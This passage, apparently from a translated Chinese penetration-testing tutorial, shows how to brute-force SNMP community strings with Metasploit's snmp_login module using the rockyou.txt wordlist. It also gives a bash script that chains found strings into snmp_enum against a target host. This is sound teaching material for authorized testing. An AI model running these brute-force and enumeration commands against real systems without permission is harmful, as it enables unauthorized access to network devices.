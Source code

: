 ![SNMP 询问](img/5107OT_05_07.jpg)

如前面的屏幕截图所示，一旦运行完成，它将列出列举的字符串以及授予的访问级别。

`snmp_login`模块默认使用一个可能的字符串的静态列表进行枚举，但您也可以在 Kali Linux 中的一些密码列表上运行此模块，如下所示：

```
msfcli auxiliary/scanner/snmp/snmp_login PASS_FILE=/usr/share/wordlists/rockyou.txt RHOSTS=192.168.10.103 

```

这将使用`rockyou.txt`单词列表来查找要猜测的字符串。

由于所有这些 Metasploit 模块都是基于命令行的，您当然可以将它们组合在一起。例如，如果您想要对主机进行 SNMP 社区字符串的暴力破解，然后对找到的字符串运行枚举模块，您可以通过编写一个 bash 脚本来实现，如下例所示：

```
#!/bin/bash
if [ $# != 1 ]
then
 echo "USAGE: . snmp [HOST]"
 exit 1
fi
TARGET=$1
echo "[*] Running SNMP enumeration on '$TARGET'"
for comm_string in \
`msfcli auxiliary/scanner/snmp/snmp_login RHOSTS=$TARGET E 2> /dev/null\
 | awk -F\' '/access with community/ { print $2 }'`; 
do 
 echo "[*] found community string '$comm_string' ...running enumeration"; 
 msfcli auxiliary/scanner/snmp/snmp_enum RHOSTS=$TARGET COMMUNITY=$comm_string E 2> /dev/null;
done

```
